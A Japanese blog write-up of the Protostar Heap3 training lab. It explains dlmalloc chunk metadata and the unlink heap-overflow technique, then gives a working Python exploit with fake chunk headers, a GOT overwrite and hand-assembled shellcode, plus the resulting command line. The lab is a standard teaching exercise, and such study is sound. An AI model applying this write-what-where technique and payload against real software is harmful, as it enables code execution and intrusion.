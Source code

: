 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/02/04/exploit-exercises-protostar-heap3/
date: 2016-02-04T05:14:02+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "dlmalloc", "heap-metadata" ]
---
```


# Exploit Exercises Protostar Heap3

前3問はよかったのに、これは急に難易度上がりすぎだし不親切なのよくないと思う。

つまりほぼ完全に他の人の解説に頼った。ある程度の理解と成長はしたはずなので許してください。

## [Protostar Heap3](https://exploit-exercises.com/protostar/heap3/)

### 問題

-   関数`winner`を呼ぶのが目標。
-   `malloc`や`free`がstaticにlinkされている。
    -   dlmallocであるとのこと。
    -   `free`のgotをoverwriteできない。
    -   `puts`のgotは存在する。
-   heapのアドレスは固定。
    -   これは与えられたvmの環境によるもの。
    -   手元で試す際はgdbの上で動けば成功としてよい。

### 解説

攻撃対象のコードは以下である。

``` c
int main(int argc, char **argv)
{
    char *a, *b, *c;

    a = malloc(32);
    b = malloc(32);
    c = malloc(32);

    strcpy(a, argv[1]);
    strcpy(b, argv[2]);
    strcpy(c, argv[3]);

    free(c);
    free(b);
    free(a);

    printf("dynamite failed?\n");
}
```

攻撃の流れは、`strcpy`でのbuffer overflowを使ってmallocの使うmetadataを書き換え、`free`の内部で`puts`のgotを書き換えさせる。`printf`は最適化により`puts`を呼び出す。

#### malloc[^1]

mallocは領域を効率良く確保/開放するためのライブラリである。
osに毎回領域を要求すると遅くなるので、まとまった量を確保し、これをchunkという単位に分けてユーザに渡す。

dlmallocはosから直接確保した領域をarenaとして管理する。
arenaはdlmallocが静的領域に持つ根から繋がる単方向連結リストとして保持される。
ただし今回は単一のarenaのみ考えればよい。

各arenaはそれに属する(未使用の)chunkの情報を持つ。
小さいchunkは単方向連結リスト(`fastbins`)で、大きめのchunkは双方向連結リスト(`bins`)で持つ。
このリストはそれぞれに関してもさらにchunkの大きさ別に複数本用意され、要求された大きさにちょうど合う未使用chunkを効率よく探せるようになっている。
小さいchunkを単方向に連結するのは時間/空間のoverheadを減らすためで、大きめのchunkを双方向に連結するのは前後の未使用chunkとの併合を効率良く行うため。

使用中のchunkのアドレスはユーザが保持しfreeの際渡されてくるので、arenaでは保持しない。
かなり大きいchunkはmmap systemcallで直接確保しfreeの際は即時munmapされるので、未使用の状態はない。

chunkが持つ情報は、そのchunkの大きさと状態によって変わる。
どのchunkも自分自身のchunkの大きさ(`head`, `size`)は保持している。
また、chunkの大きさは4の倍数であるので、このsizeの下位2bitに、そのchunkがmmapで確保されたかどうか(`IS_MMAPPED = 0x2`)、そのchunkの(空間上で)直前のchunkが使用中であるか(`PREV_INUSE = 0x1`)の情報が詰め込まれる。
chunkが未使用であれば、その未使用である領域を使って連結リストにおける前後のchunkのアドレスを持つ(`fd`, `bk`)。
さらに、大きめのchunkでありかつ(空間上で)直前のchunkが未使用であれば、その未使用の領域を使って直前のchunkの大きさ(`prev_foot` or `prev_size`)も保持する。
これにより、大きめのchunkはarenaからポインタを用いて繋がる連結リストに加え、空間上で前後のchunkとのoffsetによる別の連結リストの要素であるともいえる。

開放の処理に関して、小さいchunkであれば前後の領域との併合は試さず未使用chunkのリストにそのまま追加する。
大きめのchunkであれば前後の領域との併合を試す。
(空間上で)直前のchunkが使用中でないようなchunkを開放する際、これらを併合する。
直前のchunkは双方向連結リストの要素であるが、大きさが増加するため、元々のリストからは外され、再度別のリストに追加される。
直後のchunkに関しても同様に併合を試す。ただし直後のchunkが使用中であるかの情報は、直後のchunkの直後のchunkの直前のchunkが使用中であるかどうか、という形で取得される。

#### 攻撃

攻撃に関して、chunkの併合が発生した際のリストからの削除を用いることができる。
chunkのmetadataは以下のようになっている。

``` c
// ftp://g.oswego.edu/pub/misc/malloc-2.8.6.c L2182
struct malloc_chunk {
    size_t               prev_foot;  /* Size of previous chunk (if free).  */
    size_t               head;       /* Size and inuse bits. */
    struct malloc_chunk* fd;         /* double links -- used only if free. */
    struct malloc_chunk* bk;
};
```

chunk `p`を開放する際(ただしこれは`free(p+8)`として呼び出される)、直前のchunk `q = p - p->prev_foot`をそのリストから外す。つまり、

``` c
struct malloc_chunk *FD = q->fd;
struct malloc_chunk *BK = q->bk;
FD->bk = BK;  // *(FD + 0xc) = BK;
BK->fd = FD;  // *(BK + 0x8) = FD;
```

という処理が発生する。
heap上overflowが可能であれば`FD`と`BK`を操作できるので、好きなアドレスへの書き込みが可能となる。

ただし書き込みは複数回発生する。1回の併合に関して`FD->bk`と`BK->fd`で2回であり、もし前後のchunkの両方と併合するのであれば合計4回となる。
また、`BK`の値を書き込もうとすれば`BK->fd`を破壊することになるため、`BK`は書き込み可能な領域近くである必要がある。

よって攻撃の際におさえておくべき点は、

-   chunkの大きさを前後との併合が発生する大きさに変えること
-   書き込むアドレスは書き込み可能なアドレスにすること
-   直後のchunkの状態を使用中にしておくこと

の3点であろう。

あとはこれをやる。
[exploit exercises - protostar - heap levels \| research \| sprawl](https://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-3) を参照。


### 実装

``` python
#!/usr/bin/env python3
import struct
p32 = lambda x: struct.pack('<I', x % (1<<32))
puts_got = 0x804b128 # $ objdump -R heap3 | grep '\<puts\>'
winner   = 0x8048864 # $ readelf -s heap3 | grep '\<winner\>'
heap     = 0x804c000 # gotten by gdb, but ...
a = b''.join([ # 32byte
    b'AAAA', # heap + 0x8, write here to puts's got
    b'\xeb\x06' + b'AA', # the `call <puts>' jumps to here, shellcode: jmp $eip+6
    b'AAAA', # BK->fd, written as a side effect
    b'\x68\x64\x88\x04', # shellcode: push 0x08048864 <winner>
    b'\x08' + b'\xc3' + b'AA', # shellcode: ret
    b'AAAA',
    b'AAAA',
    b'AAAA',
    ])
b = b''.join([ # 40byte (32byte + 8byte overflow)
    b'BBBB',
    b'BBBB',
    b'BBBB',     # virtual next next chunk addr
    p32(-8 + 1), # virtual next next chunk size and PREV_INUSE
    p32(-4), # virtual next chunk addr
    p32(-8), # virtual next chunk size
    b'BBBB',
    b'BBBB',
    p32(-4),   # prev_size
    p32(-16)]) # size
c = b''.join([ # 12byte
    b'CCCC',
    p32(puts_got - 0xc),  # virtual prev chunk fd
    p32(heap     + 0x8)]) # virtual prev chunk bk
shrepr = lambda x: '$' + repr(x)[1:]
print('$', './heap3', shrepr(a), shrepr(b), shrepr(c))
```

``` sh
$ ./heap3 $'AAAA\xeb\x06AAAAAAhd\x88\x04\x08\xc3AAAAAAAAAAAAAA' $'BBBBBBBBBBBB\xf9\xff\xff\xff\xfc\xff\xff\xff\xf8\xff\xff\xffBBBBBBBB\xfc\xff\xff\xff\xf0\xff\xff\xff' $'CCCC\x1c\xb1\x04\x08\x08\xc0\x04\x08'
that wasn't too bad now, was it? @ 1454528650
```

### 参考

-   [exploit exercises - protostar - heap levels \| research \| sprawl](https://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-3)
    -   大半をこれに頼った
-   [malloc(3)のメモリ管理構造 \| VA Linux Systems Japan株式会社](http://www.valinux.co.jp/technologylibrary/document/linux/malloc0001/)
    -   これもけっこう役に立った
-   [ハンド (逆) アセンブルのための x86 ニーモニックの覚え方 - @a4lg のそろそろ技術的日記](http://d.hatena.ne.jp/a4lg/20120225/1330180431)
    -   shellcodeを読むのに
-   <ftp://g.oswego.edu/pub/misc>
-   [Beyond Zero-day Attacks（3）：ヒープに対する攻撃とその対策 (1/3) - ＠IT](http://www.atmarkit.co.jp/ait/articles/1408/28/news010.html)
-   [npca2014年部誌 glibcにおいてheap overflowによる任意のアドレス書き換えは可能か? - potetisensei](http://www.npca.jp/works/magazine/2014_10/)
-   [Glibc malloc internal](http://www.slideshare.net/kosaki55tea/glibc-malloc)

---

# Exploit Exercises Protostar Heap3

-   Fri Mar 18 18:47:27 JST 2016
    -   別の問題のため参照したついでにいくらか修正
